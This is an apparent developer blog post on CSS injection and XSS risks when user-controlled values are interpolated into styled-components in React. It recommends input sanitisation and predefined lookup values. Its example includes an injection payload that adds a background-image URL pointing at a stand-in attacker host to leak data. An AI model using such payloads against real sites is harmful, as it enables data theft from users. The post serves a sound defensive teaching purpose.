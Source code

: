 ```yaml
---
title: "The XSS dangers in interpolating styled-components"
description: "Learn about XSS vulnerabilities when interpolating styled-components in React"
publishDate: "2025-01-20"
tags: ["javascript", "react", "styled-components"]
---
```


## Avoiding XSS Vulnerabilities in [styled-components](https://styled-components.com/)

I recently learned at work with a coworker of how one can easily introduce XSS
vulnerabilities in a React application when using styled-components. This
article will explain how this can happen and how to avoid it.

### The Problem

Consider the following styled-components example:

```javascript
const Container = styled.div`
	position: ${(p) => (p.isFixed ? "fixed" : "relative")}; // this is safe
	top: ${(p) => p.offsetTop}px;
`;
```

At first glance, it seems harmless to pass `p.offsetTop` directly into the `top` property. However, this can lead to security risks if the value of `offsetTop` is not sanitized and an attacker is able to control its value. Here's why:

1. **CSS Injection**: If `offsetTop` contains malicious code, it could inject arbitrary CSS.
2. **JavaScript Execution**: When this style is server-side rendered (SSR), an attacker could execute JavaScript within the context of the user's session.
3. **External Requests**: Malicious CSS, such as a `background-image` property with a URL, can trigger requests to external services, leaking sensitive user data.

### Why This Happens

The root cause is the inability to safely escape CSS when injecting styles into `<style>` tags inside HTML. Unlike HTML attributes, which React can safely escape, CSS allows unsafe characters that could be exploited.

### Real-World Example

Imagine an attacker controlling `offsetTop` by injecting a payload:

```javascript
const maliciousPayload = `10px; background-image: url("http://evil.com/steal-data")`;

// Usage in a component
<Container offsetTop={maliciousPayload} />;
```

This would render the following unsafe CSS:

```css
.Container {
	position: relative;
	top: 10px;
	background-image: url("http://evil.com/steal-data");
}
```

When the browser processes this style, it could leak sensitive user data to the attacker's server.

### Safe Alternative

To prevent this kind of vulnerability:

1. **Sanitize Inputs**: If you must, always validate and sanitize user inputs before using them in styles.

   ```javascript
   const sanitizeValue = (value) => parseInt(value, 10) || 0;
   const safeOffsetTop = sanitizeValue(userInput);
   ```

2. **Avoid Direct CSS Injection**: Refrain from using variables directly in styled components if they come from untrusted sources.

3. **Limit Interpolations to Flags**: Only use interpolations for boolean flags or predefined values, not for arbitrary CSS properties.

```javascript
const predefinedAcceptedOffset = {
	0: 0,
	1: 10,
	2: 20,
};
const Container = styled.div`
	position: ${(p) => (p.isFixed ? "fixed" : "relative")}; // this is safe
	top: ${(p) => predefinedAcceptedOffset[p.offset]}px;
`;
```
